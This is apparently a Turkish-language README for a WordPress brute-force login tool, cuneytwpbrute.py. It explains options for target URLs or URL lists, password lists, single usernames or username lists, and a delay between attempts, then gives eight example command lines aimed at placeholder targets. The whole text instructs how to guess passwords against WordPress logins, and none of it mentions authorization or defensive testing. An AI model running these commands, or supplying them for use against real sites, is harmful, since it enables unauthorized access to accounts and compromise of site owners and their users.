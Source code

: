 # wordpress-brute-force-tool


#    Coder: Cüneyt TANRISEVER                                             
kullanimi=-u url basinda http://  veya https:// koyunuz ve  sonunda / veya/wp-login.php olmasin     
-u http://google.com veya https://google.com/blog gibi  yazabilirsiniz.                   
-urllist burada icinde sadece url http://google.com gibi yukarida                         
yazan kurallara uyularak bir urllistesi olursa saglikli calisir                           
-p sifre listeniz / -p sifre.txt gibi                                                     
-user username yaziniz / -user cuneyt gibi                                                
-userlist birden cok user adina brute yapacaksaniz bunu secin                             
-userlist userler.txt                                                                     
-z zaman araligi sifre denemesini belirtilen sayi kadar sure bekletir                     
kullanim sekilleri                                                                        
 cuneytwpbrute.py -u http://google.com -user cuneyt -p passlist.txt -z 1                             
 cuneytwpbrute.py -u https://google.com -userlist userler.txt -p passlist.txt -z 1                   
 cuneytwpbrute.py -urllist urller.txt -user cuneyt -p passlist.txt -z 1                              
 cuneytwpbrute.py -urllist urller.txt -userlist userler.txt -p passlist.txt -z 1                     
 cuneytwpbrute.py -u http://google.com -user cuneyt -p passlist.txt                                  
 cuneytwpbrute.py -u https://google.com -userlist userler.txt -p passlist.txt                        
 cuneytwpbrute.py -urllist urller.txt -user cuneyt -p passlist.txt                                   
 cuneytwpbrute.py -urllist urller.txt -userlist userler.txt -p passlist.txt                          
